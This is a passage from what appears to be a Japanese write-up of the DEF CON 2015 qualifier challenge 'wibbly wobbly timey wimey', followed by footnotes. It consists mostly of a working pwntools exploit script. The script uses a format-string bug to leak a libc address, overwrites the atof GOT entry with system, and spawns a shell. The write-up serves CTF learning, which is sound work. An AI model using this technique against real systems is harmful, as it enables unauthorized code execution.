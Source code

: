 ``` python
        payload += ' '
        payload += ' ' * ((len(payload) + 3) // 4 * 4)
        index = 15 + len(payload) // 4 # %15$p is the beggning of payload
        return payload, index
    def write_char(b, c, ix):
        l = (ord(c) - b) % 256
        if l < 10:
            l += 256
        return '%{}d%{}$hhn'.format(l, ix)

    payload, ix = fill_spaces(another_tardis)
    payload += p32(bin_base + atof_got)
    payload += ' '
    ofs = len('Coordinate ') + len(payload)
    payload += '%{}$s'.format(ix)
    p.recvuntil('Coordinates: ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    atof = u32(resp[ofs:ofs+4])
    libc_base = atof - atof_offset

    payload, ix = fill_spaces(another_tardis)
    payload += p32(bin_base + atof_got)
    payload += p32(bin_base + atof_got + 1)
    payload += p32(bin_base + atof_got + 2)
    payload += p32(bin_base + atof_got + 3)
    s = p32(libc_base + system_offset)
    payload += write_char(len(payload), s[0], ix)
    payload += write_char(   ord(s[0]), s[1], ix + 1)
    payload += write_char(   ord(s[1]), s[2], ix + 2)
    payload += write_char(   ord(s[2]), s[3], ix + 3)
    p.recvuntil('Coordinates: ')
    p.sendline(payload)

    p.recvuntil('Coordinates: ')
    p.sendline(',/bin/sh')

p = process('./wwtw')
recv_header(p)
solve_game(p)
p.sendline(tardis_key)
activate_tardis(p)
format_string_attack(p)
p.sendline('ls')
p.interactive()
```

---

# DEF CON Qualifier 2015: wibbly wobbly timey wimey


[^1]: <http://charo-it.hatenablog.jp/entry/2015/05/19/114004>
[^2]: <http://stackoverflow.com/questions/16302575/distinguish-shared-objects-from-position-independent-executables>
[^3]: <https://ezoeryou.github.io/blog/article/2015-04-16-PIC.html>
[^4]: <http://7shi.hateblo.jp/entry/2013/05/25/103050>
[^5]: 1byte漏らしてるのはすぐに気付けたけど、これがsocketを上書きしてることは気付けませんでした。writeupを見ました。
[^6]: libcはuploadされてないだけで本番は与えられていたのかな、と思っていたけどそうではなかったらしい。
